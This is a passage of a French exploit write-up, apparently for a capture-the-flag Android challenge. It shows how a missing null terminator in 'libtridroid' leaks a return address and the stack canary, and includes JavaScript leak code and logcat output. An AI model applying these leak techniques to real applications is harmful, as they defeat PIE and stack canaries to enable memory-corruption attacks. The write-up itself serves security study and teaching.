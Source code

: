### Divulguation du canari et de l'adresse de base de la librairie libtridroid

Nous pouvons abuser du fait que le `modify_element` n'ajoute pas un octet NULL à la fin de nos données pour divulguer le contenu de la pile.

![](./images/modify.png)

Comme le buffer temporaire n'est pas écrasé par un zéro après avoir été alloué, nous avons accès au contenu de la pile.

Après débogage avec GDB, nous avons observé que 8 octets après le début de ce buffer, une adresse de retour est toujours présente. La divulguer nous permettrait de contourner PIE.

Le canari est situé juste après les 40 octets du même buffer. Une chose importante à noter est que le canari ne commence pas par un octet NULL, contrairement à l'environnement Linux classique. Il s'agit d'une fonctionnalité de sécurité, qui vise à protéger contre ce type de fuite d'informations. Il est étrange que sur Android les canaris n'aient pas cette fonctionnalité de sécurité.

Afin de divulguer l'adresse de retour, nous pouvons appeler `modify` avec seulement 8 octets de nouvelles données et appeler `top` pour déclencher la fuite. Nous pouvons réaliser la même chose pour le canari en utilisant 40 octets de données :

```javascript
// initialize the stack top
push("41414141")
push("41414141")
push("41414141")

// leak return address
// return address is located in the stack at offset 8
modify("4141414141414141");
// skip 16 first bytes (4141...)
leak = top().substring(16);
console.log("Return address : "+leak);

// leak canary
// canary is at the end of the 40 bytes buffer
modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242");
// skip 40 first bytes (4141...)
leak = top().substring(80);
canary = leak.substring(0, 16);
console.log("Canary : "+canary);
```

Which gives :

```
08-02 21:15:14.483 22159 22159 I chromium: [INFO:CONSOLE(42)] "Return address : ff9601d15f78", source:  (42)
08-02 21:15:14.489 22159 22159 I chromium: [INFO:CONSOLE(51)] "Canary : f39bbcd81de1a225", source:  (51)
```

En utilisant notre session de débogage avec GDB, nous constatons que l'adresse de retour est à l'offset `0x16FF` de la base de libtridroid. En soustrayant cet offset de l'adresse de retour, on obtient l'adresse de base.
